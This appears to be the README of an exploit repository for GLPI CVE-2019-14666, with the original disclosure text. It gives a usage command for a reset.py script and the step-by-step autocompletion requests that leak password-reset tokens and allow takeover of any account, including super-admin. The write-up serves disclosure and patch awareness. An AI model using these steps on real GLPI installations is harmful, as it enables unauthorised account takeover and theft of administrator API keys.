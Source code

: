 # GLPI-9.4.3-Account-Takeover
Discovery and original PoC made by Pablo Martinez just adjusted slightly for python3

####Example
python3 reset.py --url http://localhost/ --user normal --password normal --email glpi_adm --newpass test


Sofware: GLPI 
Version: <= 9.4.3 
Discovered by: Pablo Martinez (@Xassiz)
Fix: version 9.4.4
Vulnerability: Account takeover (CVE-2019-14666)
Description:
We've found that it's possible to abuse autocompletion feature to retrieve sensitive data from any user, using an unprivileged account.
Besides hashed session cookies or api keys in cleartext, a malicious user can retrieve the password_forget_token atributte which leads to account takeover when "Lost password" feature is enabled.
The steps are the following:
    1. Choose a known email or get a list of them using autocompletion
        GET /glpi/ajax/autocompletion.php?itemtype=UserEmail&field=email&term=
     
    2. Get a list of all generated tokens
        GET /glpi/ajax/autocompletion.php?itemtype=User&field=password_forget_token&term=
 
    3. Invoke "Lost password" with target email
    4. Get a list of all generated tokens again and compute the difference to get your freshly generated token
 
    5. Set new password using /glpi/front/lostpassword.php?password_forget_token=[token]
    
To sum up: an unprivileged user could steal any account or escalate privileges by changing super-admin password. It's also possible to steal admins' api keys and use them with malicious purposes.
